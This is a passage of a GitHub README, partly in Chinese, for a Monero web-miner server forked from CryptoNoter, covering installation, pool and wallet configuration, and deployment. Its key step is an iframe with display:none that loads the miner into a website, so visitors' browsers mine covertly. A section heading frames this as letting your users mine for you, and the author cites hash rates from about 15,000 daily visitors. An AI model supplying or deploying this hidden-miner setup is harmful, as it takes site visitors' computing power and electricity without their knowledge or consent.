

## Monero(XMR) Web Miner
Monero(XMR) Web Miner modified version from cryptonoter/CryptoNoter. Check the original repository in https://github.com/cryptonoter/CryptoNoter.


## Requirements
The project is basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the step by step installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, I did approx 1550 H/s for a website with approx 15,000 daily visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, I did on avg 3500 H/s. After the latest update (18/12/17), I am doing 4300 H/s. （现在直接用的nodejs，没用nginx，性能应该没那么高）

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nodejs, NPM & Forever Packages


## Installation
首先保证自己装好了nodejs
### 下载
``` bash
git clone https://github.com/nladuo/xmr-web-miner.git
cd xmr-web-miner && npm install 
```
### 安装软件
``` bash
npm install -g forever
npm install -g http-server
```

## Configuration
### 修改config.json
``` json
{
    "lhost": "10.18.92.38",
    "lport": 7777,
    "domain": "10.18.92.38",
    "pool": "pool.supportxmr.com:5555",
    "addr": "44tSv6j2X8J2HpcHPxd9G7L2PxawZCr7MaxsA3F8QDwC7j25cyqjS9PMK2EcWPz77qavwsgh61a5EF1VBsPM27PDQEeMoLP",
    "pass": "x10"
}
```
### 配置HTTP
修改web目录中processor.js、worker.js、miner.html、lib/cryptonoter-asmjs.min.js中的"[http://10.18.92.38:7777/]()"和"[ws://10.18.92.38:7777/]()"改成你自己的。

### 配置HTTPS
- 首先搞好证书
- 把上面的"[http://10.18.92.38:7777/]()"换成"[https://域名:端口/]()"
- 把上面的"[ws://10.18.92.38:7777/]()"换成"[wss://域名:端口/]()"

## Deployment
### 调试运行
``` bash
node xmr-server.js
```

### 使用forever
``` bash
forever start xmr-server.js
```
## 让你的用户帮你挖矿
### 嵌入iframe到你的网页
``` html
<iframe style="display: none;" src="http://10.18.92.38:7777/miner.html" name="iframe_xmr"></iframe>
```
### 效果
``` bash
cd test_miner
http-server # 然后打开http://localhost:8080/test_miner.html
```

## Donations To Support
* There is NO DEVELOPER FEE hardcoded into this project. Donation is as per your goodwill to support my development.
I am looking to add other cryptonote currencies support into this project and also to create a monero pool specifically for javascript browser mining. If you are interested in my future developments, i would really appreciate a small donation to support this project.
```html
My Monero Wallet Address (XMR)
42zXE5jcPpWR2J6pVRE39uJEqUdMWdW2H4if27wcS1bwUbBRTeSR5aDbAxP5KCjWueiZevjSBxqNZ36Q5ANPND3m4RJoeqX
```
```html
My Bitcoin Wallet Address (BTC)
34Z53zGc888pUYRsFtxgQxRVVLKwcWtjeP
```
```html
My Litecoin Wallet Address (LTC)
MJZZ9qq8ioAecyVDD7zMDStJXpY5thH2qC
```
* PayPal Donation<br />
And if you prefer the traditional mode, you may donate to this project via PayPal by sending the donation to my PayPal email: cryptonoter@gmail.com

Last but not least, i am looking forward to hearing all of the great projects built upon this web miner project. If you've built something great, drop me an email so that i can share with my readers, users and friends.


## License
* Note: If you are implementing this project in your personal or commercial projects, please be a nice and supportive user. You may give a credit back to my project or alternatively if you wish to keep credits hidden, please kindly consider a donation to keep this project running.

MIT https://raw.github.com/cryptonoter/CryptoNoter/master/LICENSE

## Missions
Great things happen when we work together. The power of collaboration